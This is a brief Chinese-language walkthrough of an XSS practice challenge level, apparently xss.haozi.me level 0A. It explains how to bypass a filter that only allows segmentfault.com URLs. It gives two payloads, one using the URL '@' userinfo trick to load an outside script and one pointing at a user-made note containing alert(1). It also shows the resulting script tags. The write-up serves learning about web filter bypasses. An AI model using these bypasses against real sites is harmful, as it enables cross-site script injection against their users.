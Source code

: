 ## 分析:

```
用正则表达式匹配'https(http)://www.segmentfault.com',用html实体替换&'"<>\。
1.利用url中的@引用js
2.直接在给定的网址https://www.segmentfault.com 注册账号，新建一个笔记，内容为alert(1)，再调用这个笔记链接即可，需要换行
```

## input code:

```
1. https://www.segmentfault.com@xss.haozi.me/j.js
2. https://www.segmentfault.com/n/
1330000016631643/raw （这一行换行）

```

## html:

```
1. <script src="https:&#x2f&#x2fwww.segmentfault.com@xss.haozi.me&#x2fj.js"></script>
2. <script src="https:&#x2f&#x2fwww.segmentfault.com&#x2fn&#x2f
1330000016631643&#x2fraw"></script>
```

![00A](/img/xss/haozi/00A.png)
